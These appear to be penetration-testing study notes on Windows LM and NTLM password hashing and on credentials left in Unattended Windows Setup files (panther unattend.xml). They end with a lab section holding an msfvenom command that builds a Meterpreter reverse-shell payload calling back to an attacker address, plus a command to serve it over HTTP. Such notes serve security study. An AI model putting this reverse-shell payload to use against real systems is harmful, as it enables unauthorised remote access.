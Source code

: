 #### LM hash

* LM (LanMan) is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
* The protocol is used to hash user passwords, and the hashing process can be broken down into the following steps :
  * The password is broken into two seven-character chunks.
  * All characters are then converted into uppercase.
  * Each chunk is then hashed separately with the DES algorithm.
* LM hashing is generally considered to be a weak protocol and can easily be cracked, primarily because the password hash does not include salts, consequently making brute-force and rainbow table attacks effective against LM hashes.

#### NTLM hash

* NTLM (NTHash) is a collection of authentication protocols thath are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
* From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
* WHen a user account is created, it is encrypted using the **MD4** hashing algorithm, while the original password is disposed of.
* NTLM improves upon LM in the following ways :
  * Does not split the hash in to two chunks.
  * Case sensitive.
  * Allows the use of symbols and unicode characters.

### Searching for passwords in Windows config files

#### Windows config files

* Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
* This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
* This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
* If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

#### Unattended Windows Setup

* The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information :
  * c:\windows\panther\unattend.xml
  * c:\windows\panther\autounattend.xml
* As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

#### Lab

```bash
john@attack> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe
john@attack> python -m SimpleHTTPServer 80
```

